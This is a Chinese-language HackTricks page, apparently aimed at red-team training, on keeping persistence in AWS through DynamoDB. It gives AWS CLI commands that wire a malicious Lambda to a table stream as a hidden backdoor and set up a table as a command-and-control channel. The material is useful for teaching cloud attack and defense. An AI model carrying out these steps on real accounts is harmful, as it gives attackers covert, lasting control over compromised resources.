 # AWS - DynamoDB持久性

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

- 如果您想在HackTricks中看到您的**公司广告**或**下载PDF版HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
- 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
- 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
- **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
- 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

### DynamoDB

有关更多信息，请访问：

{% content-ref url="../aws-services/aws-dynamodb-enum.md" %}
[aws-dynamodb-enum.md](../aws-services/aws-dynamodb-enum.md)
{% endcontent-ref %}

### 使用Lambda后门的DynamoDB触发器

使用DynamoDB触发器，攻击者可以通过将恶意Lambda函数与表关联来创建一个**隐秘后门**。当添加、修改或删除项目时，可以触发Lambda函数，使攻击者能够在AWS账户内执行任意代码。

{% code overflow="wrap" %}
```bash
# Create a malicious Lambda function
aws lambda create-function \
--function-name MaliciousFunction \
--runtime nodejs14.x \
--role <LAMBDA_ROLE_ARN> \
--handler index.handler \
--zip-file fileb://malicious_function.zip \
--region <region>

# Associate the Lambda function with the DynamoDB table as a trigger
aws dynamodbstreams describe-stream \
--table-name TargetTable \
--region <region>

# Note the "StreamArn" from the output
aws lambda create-event-source-mapping \
--function-name MaliciousFunction \
--event-source <STREAM_ARN> \
--region <region>
```
{% endcode %}

为了保持持久性，攻击者可以创建或修改DynamoDB表中的项目，从而触发恶意的Lambda函数。这使得攻击者能够在AWS账户内执行代码，而无需直接与Lambda函数交互。

### DynamoDB作为C2通道

攻击者可以使用DynamoDB表作为**命令和控制（C2）通道**，通过创建包含命令的项目，并利用受损的实例或Lambda函数来获取和执行这些命令。
```bash
# Create a DynamoDB table for C2
aws dynamodb create-table \
--table-name C2Table \
--attribute-definitions AttributeName=CommandId,AttributeType=S \
--key-schema AttributeName=CommandId,KeyType=HASH \
--provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
--region <region>

# Insert a command into the table
aws dynamodb put-item \
--table-name C2Table \
--item '{"CommandId": {"S": "cmd1"}, "Command": {"S": "malicious_command"}}' \
--region <region>
```
受损的实例或Lambda函数可以定期检查C2表以获取新命令，执行这些命令，并可选择性地将结果报告回表中。这使得攻击者能够保持对受损资源的持久性和控制。
